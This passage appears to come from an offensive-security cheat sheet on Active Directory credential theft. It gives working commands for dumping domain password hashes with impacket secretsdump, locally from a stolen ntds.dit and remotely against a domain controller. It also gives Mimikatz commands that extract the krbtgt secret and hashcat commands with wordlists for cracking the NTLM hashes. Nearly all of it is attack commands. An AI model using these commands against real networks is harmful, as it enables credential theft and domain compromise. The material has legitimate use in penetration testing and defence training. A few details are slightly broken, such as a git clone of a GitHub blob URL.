 then you need to use [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.


### Using Mimikatz sekurlsa

Dumps credential data in an Active Directory domain when run on a Domain Controller.
:warning: Requires administrator access with debug or Local SYSTEM rights

```powershell
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

### Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:
- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
- [Weakpass.com](https://weakpass.com/)
- Read More at [Methodology and Resources/Hash Cracking.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r myrules.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :
- [hashmob.net](https://hashmob.net)
- [crackstation.net](https://crackstation.net)
- [hashes.com](https://hashes.com/en/decrypt/hash)
